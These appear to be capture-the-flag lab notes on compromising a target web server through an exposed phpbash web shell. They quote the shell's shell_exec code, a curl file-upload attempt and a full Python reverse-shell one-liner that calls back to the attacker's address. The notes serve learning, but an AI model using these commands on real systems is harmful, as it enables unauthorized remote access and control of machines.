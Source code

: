 port 80 is only thing open

Arrexel's Development Site -> http title
- This can be found from a github repo -> https://github.com/Arrexel/phpbash

no cgi-bin
apache 2.4.18 has a local priv esc -> linux/local/46676.php

looks like we can view directories
- images most recent upload date was 2017-12-04

Wierd Files:
- /php/sendMail.php
- /dev/phpbash.php

Looking at https://github.com/Arrexel/phpbash
- one of the issues is a xss

we see that that there is this line of code for file upload
`} else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])) {`

curl -F 'path=/&file=@test.php' http://10.129.223.52/dev/phpbash.php

trying to send that didnt work, not sure if cause my stuff was wrong or what, but decided to read out the phpbash that was being used and saw
`<?php /* phpbash by Alexander Reid (Arrexel) */ if (ISSET($_POST['cmd'])) { echo shell_exec($_POST['cmd']." 2>&1"); die(); } ?>`

sudo tcpdump -i tun0 <-- good for testing ping backs
tried to wget a file, but couldnt write to that directory
always just go through a list of reverse shells, just cause one didnt work, doesnt mean another one couldnt

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.146", 6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

sent that through and got a reverse shell